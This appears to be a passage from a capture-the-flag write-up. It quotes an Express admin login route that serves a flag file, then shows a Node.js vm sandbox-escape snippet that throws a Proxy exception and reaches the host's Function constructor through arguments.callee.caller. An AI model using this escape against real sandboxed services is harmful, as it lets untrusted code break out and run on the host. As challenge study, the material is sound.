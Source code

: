 The code that can get the flag is this:

``` js
app.post("/admin", async (req, res) => {
    let { user, pass } = req.body;
    if(!user || !pass || typeof user !== "string" || typeof pass !== "string") {
        return res.render("admin", { error: "Missing username or password!" });
    }

    let hash = sha256(pass);
    if(users.filter(u => u.user === user && u.pass === hash)[0] !== undefined) {
        res.render("admin", { flag: await fsp.readFile("flag.txt") });
    }
    else {
        res.render("admin", { error: "Incorrect username or password!" });
    }
});
```

Regarding VM escape, all I know is based on this file: https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af

There are some interesting ways in it, such as this:

``` js
////////
// Also, the vm code could throw an exception, with proxies on it.

const code5 = `throw new Proxy({}, {
  get: function(me, key) {
	 const cc = arguments.callee.caller;
	 if (cc != null) {
		(cc.constructor.constructor('console.log(sauce)'))();
	 }
	 return me[key];
  }
})`;


try {
  vm.runInContext(code5, vm.createContext(Object.create(null)));
}
catch(e) {
  // The following prints out 'laser' twice, (as side-effects of e
  // being converted to a string) followed by {}, which is the effect
  // of the console.log actually *on* this line printing out the
  // stringified value of the exception, which is in this case a
  // (proxy-wrapped) empty object.
  console.log(e);
}
```

Throw a proxy out as an exception, and when someone executes toString on this exception, it will trigger and we can get the external function through `arguments.callee.caller`.
